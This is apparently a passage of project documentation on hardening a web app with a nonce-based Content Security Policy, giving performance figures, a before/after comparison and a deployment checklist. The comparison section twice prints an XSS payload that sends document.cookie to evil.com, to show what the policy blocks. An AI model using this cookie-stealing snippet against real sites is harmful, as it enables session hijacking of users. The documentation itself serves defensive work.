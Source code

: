 **Cause:** Inline styles need nonce too

**Solution:** Add nonce to style tags or use external stylesheets

## Performance Impact

| Metric | Impact |
|--------|--------|
| Middleware overhead | +34.2 KB |
| Per-request processing | ~1-2ms (nonce generation) |
| Browser parsing | Negligible |
| Bundle size | No change (server-side) |

## Security Comparison

### Before CSP with Nonces

```javascript
// Attacker can inject this:
<script>
  fetch('https://evil.com?cookie=' + document.cookie);
</script>
```
**Result:** ✅ Script executes (unsafe-inline allows it)

### After CSP with Nonces

```javascript
// Same injection attempt:
<script>
  fetch('https://evil.com?cookie=' + document.cookie);
</script>
```
**Result:** ❌ Blocked by CSP (no nonce attribute)

```javascript
// Only scripts with correct nonce work:
<script nonce="abc123...">
  // Legitimate code
</script>
```
**Result:** ✅ Executes (has valid nonce)

## Deployment Checklist

- [x] Middleware generates unique nonces
- [x] CSP headers set correctly
- [x] All inline scripts have nonce
- [x] Third-party scripts whitelisted
- [x] Tests passing (67/67)
- [x] Build successful
- [x] No unsafe-inline in policy
- [x] strict-dynamic enabled
